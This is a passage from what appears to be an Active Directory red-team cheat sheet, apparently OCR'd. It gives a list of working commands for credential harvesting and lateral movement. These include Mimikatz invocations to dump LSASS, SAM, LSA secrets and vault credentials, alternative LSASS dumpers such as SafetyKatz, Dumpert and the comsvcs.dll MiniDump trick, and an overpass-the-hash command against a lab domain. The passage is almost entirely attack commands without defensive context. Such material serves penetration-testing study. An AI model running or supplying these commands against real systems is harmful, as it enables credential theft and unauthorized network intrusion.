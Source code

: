     https://docs.microsoft.com/en-us/sysinternals/downloads/psexec



    ```

### Lateral Movement - Credentials Harvesting

    ```powershell
    # Check if lsass.exe is running as protected process
    Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL" 

    ## Dumping Credentials
    Invoke-Mimikatz -Command '"sekurlsa::ekeys"' ## note the rc4
    Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'


    Invoke-Mimikatz -Command '"sekurlsa::logonpassword"'
    Invoke-Mimikatz -Command '"lsadump::lsa /patch"' #  require the trust key of inter-forest trust
    Invoke-Mimikatz -Command '"lsadump::sam"'

    # Dump Secrets stored in windows vault
    Invoke-Mimikatz -Command '"vault::list"'
    Invoke-Mimikatz -Command '"vault::cred /patch"'
    Invoke-Mimikatz -Command '"sekurlsa::minidump lsass.dmp"'

    # Other Mimikatz based utility for duping lsass.exe
    SafetyKatz.exe "sekurlsa::ekeys"
    SharpKatz.exe --Command ekeys
    rundll32.exe C:\Dumpert\Outflank\Dumpert.dll,Dump
    pypykatz.exe live lsa

    tasklist /FI "IMAGENAME eq lsass.exe" 
    rundll32.exe C:\windows\System32\comsvcs.dll,MiniDump <lsass_process_ID> C:\Users\Public\lsass.dmp full

    .\mimikatz.exe
    mimikatz # sekurlsa::minidump c:\Ad\Tools\lsass.dmp
    mimikatz # privilege::debug
    mimikatz # sekurlsa::keys
    mimikatz # exit

    # Lateral Movement - OverPass The Hash
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:aes /run:powershell.exe"'

    # "Over pass the hash" generate tokens from hashes
